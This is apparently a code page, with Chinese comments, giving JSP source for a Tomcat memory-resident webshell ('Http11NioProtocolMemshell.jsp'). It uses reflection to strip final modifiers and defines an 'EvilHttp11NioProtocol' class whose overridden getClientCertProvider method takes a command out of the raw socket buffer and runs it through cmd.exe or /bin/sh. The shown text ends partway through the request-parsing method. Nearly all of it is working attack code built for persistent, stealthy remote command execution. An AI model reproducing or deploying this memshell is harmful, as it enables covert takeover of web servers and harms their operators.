 ## JSP 代码

```bash
<%@ page import="org.apache.coyote.http11.Http11NioProtocol" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.lang.reflect.Modifier" %><%--
  Created by IntelliJ IDEA.
  User: xieyaowei
  Date: 2023/2/22
  Time: 9:45
  To change this template use File | Settings | File Templates.
  Filename: Http11NioProtocolMemshell.jsp
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%!
    // 使得 private final 字段能够被反射设置
    public static void makeSettable(Field f) {
        try {
            Field modifiersField = Field.class.getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(f, f.getModifiers() & ~Modifier.FINAL);
            f.setAccessible(true);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    // 恶意 EvilHttp11NioProtocol 对象
    public class EvilHttp11NioProtocol extends Http11NioProtocol {
        public EvilHttp11NioProtocol() {
            super();
        }
        // 重写 getClientCertProvider
        // 关键位置 -> process:790, AbstractProtocol$ConnectionHandler (org.apache.coyote)
        // 代码段 -> processor.setSslSupport(wrapper.getSslSupport(getProtocol().getClientCertProvider()));
        @Override
        public String getClientCertProvider() {
            // evil code
            try {
                String cmd = getCmd(getRequest());
                System.out.println(cmd);
                if (!cmd.equals("")){
                    String[] cmds = System.getProperty("os.name").toLowerCase().contains("windows") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};
                    byte[] result = new java.util.Scanner(new ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\A").next().getBytes();
                    // 暂时无法回显
                    // getResponse(result);
                }
            } catch (Exception e) {
//                e.printStackTrace();
            }

            return super.getClientCertProvider();
        }

        // 从 socket 中获取参数
        // 位置 Thread.getThreads()[15].target.this$0.pollers[0].selector.channelArray[1].attachment.socket.appReadBufHandler.byteBuffer.hb
        public String getRequest() {
            // 获取当前线程的所有线程
```